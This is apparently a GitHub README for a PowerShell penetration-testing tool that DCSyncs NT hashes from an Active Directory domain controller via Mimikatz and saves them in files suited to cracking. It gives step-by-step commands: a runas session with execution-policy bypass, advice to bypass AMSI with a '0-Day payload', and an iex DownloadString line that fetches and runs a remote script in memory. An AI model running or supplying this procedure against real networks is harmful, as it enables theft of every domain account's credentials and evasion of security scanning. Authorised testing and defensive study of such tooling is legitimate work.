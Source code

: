# Invoke-DCSync
PowerShell script to DCSync NT-Hashes from an Active Directory Domain Controller (DC) via Mimikatz. 

Output format is split into 4 files:
- raw mimikatz log
- hashes only
- users only 
- tuple list of user and hash for cracking

## General Preparation

1. Connect to the internal AD network via VPN or directly, if on-site.
2. Configure your operating system's proxy to use the client's proxy. Internet is required to download Invoke-Mimikatz and Invoke-DCSync PS scripts. Alternatively, configure a known proxy via PS:

````
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Internet Settings" -Name ProxyServer -Value "127.0.0.1:8080"
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Internet Settings" -Name ProxyEnable -Value 1
````
3. Open a new PowerShell terminal as another user; use a privileged domain user account with DCSync rights

````
runas.exe /netonly /noprofile /user:mydomain.prod.dom\dcsyncUser "powershell.exe -ep bypass"
````

4. Verify authenticated AD access within your PowerShell terminal window

## DCSync Preparation

It is recommended to bypass AMSI for the current PowerShell session. Use a 0-Day payload!

# DCSync Execution

Download ``Invoke-DCSync.ps1`` into memory, which executes the DCSync process.

As a result, we will obtain four files located under C:\temp\ directory:

1. **DCSync_NTLM_full**: Just the complete logfile of running Mimikatz
2. **DCSync_NTLM_Hashes**: Only contains the NT-Hashes
3. **DCSync_NTLM_Users**: Only contains the employee's username
4. **DCSync_NTLM_UserHash_Import**: Contains the tuple of username and hash

````
iex(new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/pentestfactory/Invoke-SPNDCSync/main/Invoke-SPNDCSync.ps1')
````
